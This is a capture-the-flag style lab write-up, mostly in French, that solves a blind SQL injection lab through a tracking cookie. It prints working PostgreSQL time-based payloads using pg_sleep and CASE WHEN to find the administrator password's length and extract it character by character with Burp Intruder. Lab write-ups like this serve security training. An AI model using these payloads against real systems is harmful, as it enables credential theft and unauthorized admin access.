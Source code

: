 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

------------------------------------------------------------------------------------------------------

Meme logique que le precedent lab sur le debut.
Apres plusieurs essais, la requete pour delai est passee avec la syntaxe suivante :
```
'||(SELECT pg_sleep(10))--
```

Nous sommes donc sur une database en PostgreSQL

Testons si notre conditionnal time delay fonctionne :
```
'||( SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--
'||( SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```
Nous obtenons bien un sleep de 10 secondes si la condition est vraie, et pas de sleep si la condition est fausse.

On peut maintenant verifier la taille du password de administrator :

```
'||(SELECT CASE WHEN (LENGTH(password) = 20) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username ='administrator')--
```

La taille est de 20.

Il ne reste plus qu'a `sniper` le mot de passe depuis l'`intruder` :

```
'||(SELECT CASE WHEN (SUBSTRING(password, 1, 1) = 'a') THEN pg_sleep(20) ELSE pg_sleep(0) END FROM users WHERE username ='administrator')--
```

Puisque la requete est similaire, on ne peut compter sur une difference de taille pour savoir s'il s'agit du bon caractere.

On peut cependant compter sur un sleep bien trop long pour indiquer le bon caractere. Le placement du payload ressemble a ca :

```
'||(SELECT CASE WHEN (SUBSTRING(password, 1, 1) = '§a§') THEN pg_sleep(20) ELSE pg_sleep(0) END FROM users WHERE username ='administrator')--
```

Il suffit ensuite d'incrementer la place jusque 20 pour trouver le mot de passe en un temps raisonnable.
Une fois le mot de passe de l'administrateur decouvert, il suffit de se log en admin sur le workshop pour terminer le lab.
